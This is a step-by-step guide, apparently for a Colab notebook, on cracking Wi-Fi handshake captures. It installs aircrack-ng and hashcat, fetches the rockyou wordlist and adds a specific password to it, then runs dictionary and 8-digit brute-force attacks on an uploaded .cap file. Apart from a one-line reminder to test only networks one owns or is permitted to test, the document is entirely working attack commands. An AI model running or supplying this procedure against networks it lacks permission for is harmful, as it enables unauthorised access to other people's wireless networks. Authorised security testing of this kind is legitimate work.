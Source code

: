 # Wi-Fi Cracking Setup

## Steps

1. **Check GPU**  
   ```bash
   !nvidia-smi

2. **Install Essentials**
   ```bash
   !apt update -y
   !apt install cmake build-essential libtool libnl-3-dev libnl-genl-3-dev hcxtools -y
   !apt install checkinstall git -y

   
3. **Install Aircrack-ng & Wordlist**
   ```bash
   !git clone --recursive https://github.com/aircrack-ng/aircrack-ng
   !cd aircrack-ng && ./autogen.sh
   !cd aircrack-ng && make
   !cd aircrack-ng && wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
   !echo wroclaw222 >> aircrack-ng/rockyou.txt

   
4. **Install Hashcat & Utilities**
   ```bash
   !git clone https://github.com/hashcat/hashcat.git && cd hashcat && make && make install
   !git clone https://github.com/hashcat/hashcat-utils && cd hashcat-utils && git submodule update --init && cd src && make

   
5. **Upload .cap File**
   ```bash
    from google.colab import files
    !mkdir cap_files
    uploaded = files.upload()
    
    for f_name in uploaded.keys():
        print('User uploaded file "{name}" with length {length} bytes'.format(name=f_name, length=len(uploaded[f_name])))
    !mv {f_name} "/content/cap_files/cap.cap"


6. **Crack with Aircrack-ng**
   ```python
   !cd /content/aircrack-ng && ./aircrack-ng -w ./rockyou.txt /content/cap_files/cap.cap


7. ***Convert .cap and Crack with Hashcat**
   ```bash
   !mkdir hc22000
   !hcxpcapngtool -o /content/hc22000/bruteforce.hc22000 /content/cap_files/cap.cap
   !hashcat -m 22000 -a 0 /content/hc22000/bruteforce.hc22000 /content/aircrack-ng/rockyou.txt


8. **Optional:** Convert to .hccapx and Run Hashcat
   ```bash
   !mkdir hccapx_files
   !./hashcat-utils/src/cap2hccapx.bin /content/cap_files/cap.cap /content/hccapx_files/272307.hccapx
   !hashcat --deprecated-check-disable -m 2500 -a 3 -w 3 /content/hccapx_files/272307.hccapx ?d?d?d?d?d?d?d?d


**Note:** Adjust paths and wordlists as needed. Use at your own risk and only against networks you own or have explicit permission to test.
